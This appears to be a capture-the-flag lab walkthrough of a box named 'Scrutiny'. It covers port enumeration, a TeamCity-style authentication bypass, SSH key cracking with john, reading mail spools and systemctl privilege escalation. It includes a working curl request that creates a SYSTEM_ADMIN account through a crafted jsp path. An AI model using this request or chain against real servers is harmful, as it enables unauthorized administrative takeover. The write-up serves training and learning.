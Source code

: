 ```yaml
---
description: Community Rating:Very hard
---
```


# Scrutiny

So i start off by enumerating open ports:

<figure><img src="../../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

On the website on port 80 i go to the login page:

<figure><img src="../../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

The website does not work and i need to put the webiste in my etc/hosts file as well as the vhost:

<figure><img src="../../../.gitbook/assets/image (11) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

then i look up at the version number for any known exploits:

<figure><img src="../../../.gitbook/assets/image (12) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

and what stood out even more was a HackTheBox article:

<figure><img src="../../../.gitbook/assets/image (13) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So i tried exploiting this one, i rarely get HTB articles for a specific box so i gave it a go:

```
curl -s -X POST 'http://teams.onlyrands.com/idontexist?jsp=/app/rest/users;.jsp' -H "Content-Type: application/json" --data '{"username": "felix", "password": "felix", "email": "felix", "roles": {"role": [{"roleId": "SYSTEM_ADMIN", "scope": "g"}]}}'
```

<figure><img src="../../../.gitbook/assets/image (14) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I am able to create a new admin user with ease and login:

<figure><img src="../../../.gitbook/assets/image (15) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

While looking at Queue, i look at the different stuff the freelances pushed to the instance and saw something funny:

<figure><img src="../../../.gitbook/assets/image (16) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (17) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

maybe i can use this to log in to the instance but it prompted my for a password so i tried ssh2john:

<figure><img src="../../../.gitbook/assets/image (18) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
john sshhash --wordlist=/usr/share/wordlists/rockyou.txt
```

This revealed the password and made us able to login:

<figure><img src="../../../.gitbook/assets/image (19) (1) (1).png" alt=""><figcaption></figcaption></figure>

Then we end up in a huge workspace with plenty of users and groups...

To find local.txt i have the following command:

```
find . -name local.txt
```

<figure><img src="../../../.gitbook/assets/image (20) (1).png" alt=""><figcaption></figcaption></figure>

Now i enumerated for a bit and remembered that there was a SMTP server, Traditionally, mail is stored in a "mail spool," a mailbox in the /var/spool/mail directory, where users are expected to retrieve it and indeed there is some nice stuff there:

<figure><img src="../../../.gitbook/assets/image (21) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (22) (1).png" alt=""><figcaption></figcaption></figure>

Ok so i was pretty lucky here, i ALWAYS ls -al in the directories of users since i already created forensics challenges where there was hidden files so i was pretty lucky to find this one without too much work:

<figure><img src="../../../.gitbook/assets/image (23) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (24).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (25).png" alt=""><figcaption></figcaption></figure>

So now i can switch user and see the rights of this guy:

<figure><img src="../../../.gitbook/assets/image (26).png" alt=""><figcaption></figcaption></figure>

so i go and look at the exploit bible:

{% embed url="https://gtfobins.github.io/gtfobins/systemctl/" %}

and this exploit was the one i already used so i went with it once again:

<figure><img src="../../../.gitbook/assets/image (28).png" alt=""><figcaption></figcaption></figure>

and now we can simply use the GTFObins exploit:

<figure><img src="../../../.gitbook/assets/image (27).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (76).png" alt=""><figcaption></figcaption></figure>
